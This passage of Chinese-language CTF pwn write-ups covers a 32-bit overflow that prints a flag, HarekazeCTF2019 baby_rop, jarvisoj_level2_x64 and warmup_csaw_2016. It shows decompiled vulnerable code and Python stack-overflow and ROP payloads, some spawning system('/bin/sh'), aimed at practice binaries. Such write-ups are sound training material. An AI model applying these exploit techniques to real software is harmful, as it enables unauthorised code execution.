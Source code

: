 通过String view找到`flag`然后跳转引用到`get_secret()`函数（0x80489a0），此函数将flag内容输出到`&fl4g`（0x80eca2d），所以需要用一个输出函数打印它（一般用`write()`，因为它打印的结束条件只有长度这一参数）；Functions window中搜索有`write()`（0x806e270）

注意这里的`main()`函数开头是没有`push ebp`的，故不需要覆盖ebp

故payload = get_secret（溢出返回） + write（get_secret返回） + 任意（无所谓返回）+ 0 + 1（stdout） + &fl4g + 45（`write(stdout, &fl4g, 45)`）

```python
payload = b'a'*0x2d + p32(0x80489a0) + p32(0x806e270) + p32(0) + p32(1) + p32(0x80eca2d) + p32(45)
```

## [HarekazeCTF2019]baby_rop

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[16]; // [rsp+0h] [rbp-10h] BYREF

  system("echo -n \"What's your name? \"");
  __isoc99_scanf("%s", v4);
  printf("Welcome to the Pwn World, %s!\n", v4);
  return 0;
}
```

简单64位栈溢出；`system()`函数（0x400490）和`"/bin/sh"`（0x601048）都有，注意 64位程序使用寄存器传参，所以需要把栈上参数弹到寄存器上，然后再调用目标函数，也就是`pop rdi; ret`；这条指令据说是有万能地址的（normal/#ciscn_2019_c_1 中是0x400c83，而本题是0x400683，或者使用`next(elf_file.search(asm('pop rdi\nret')))`）

payload = b'a'*0x18 + p64(0x400683) + p64(0x601048) + p64(0x400490)

## jarvisoj_level2_x64

和[\[HarekazeCTF2019\]baby_rop](#[HarekazeCTF2019]baby_rop)没有多大区别，不赘述

```python
pop_rip_ret = next(elf_file.search(asm('pop rdi\nret')))
payload = b'a'*0x88 + p64(pop_rip_ret) + p64(0x600a90) + p64(elf.plt['system'])
```

## warmup_csaw_2016

危险函数`gets`，缓冲区距离栈顶`0x40`字节

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets(v5);
}
```
